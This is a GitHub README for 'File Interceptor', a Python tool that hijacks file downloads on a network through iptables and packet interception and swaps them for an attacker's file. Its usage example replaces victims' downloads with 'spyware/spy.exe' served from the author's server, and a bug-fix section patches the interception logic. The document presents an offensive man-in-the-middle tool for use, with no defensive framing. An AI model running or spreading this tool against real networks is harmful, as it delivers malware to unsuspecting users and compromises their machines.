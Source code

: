#  File Interceptor. 
A Python powered Script to replace Downloads taking place over Network. 

  - Replaces any File Downloads of Specified Filetype to desired File.
  - Automatically changes IPTables rules to facilitate Interception. 
  - Flushes IPTables upon Exit.

### Installation

To Clone the File Interceptor Repository..

```sh
# git clone https://github.com/gobinathan-l/File-Interceptor.git
# cd File-Interceptor
```

To install Dependencies..

```sh
# apt-get install build-essential python-dev libnetfilter-queue-dev
# pip install -r requirements.txt
```

To Execute the Script..
```sh
# python File_Interceptor.py -h
# python File_Interceptor.py -t msi -u http://192.168.1.102/spyware/spy.exe -m remote
```

Bug Fix:

In case the Target File and the Replacement File are of same type, the script kinda goes into a loop. To fix this bug, Goto line 46 and, replace the line 
```
if args.filetype in scapy_packet[scapy.Raw].load:
```
with 
```
if args.filetype in scapy_packet[scapy.Raw].load and "192.168.1.102" not in scapy_packet[scapy.Raw].load:
```
here the IP 192.168.1.102 is my Replacement File Server IP.

### About Author
I am Gobinathan, a CyberSecurity Enthusiast. To reach out to me..<br>
[GitHub](https://github.com/gobinathan-l/), [Linkedin](https://in.linkedin.com/in/gobinathan-l), [Twitter](https://twitter.com/gobinathan_l)


***Suggestions on Improvements and New Features are Welcome.***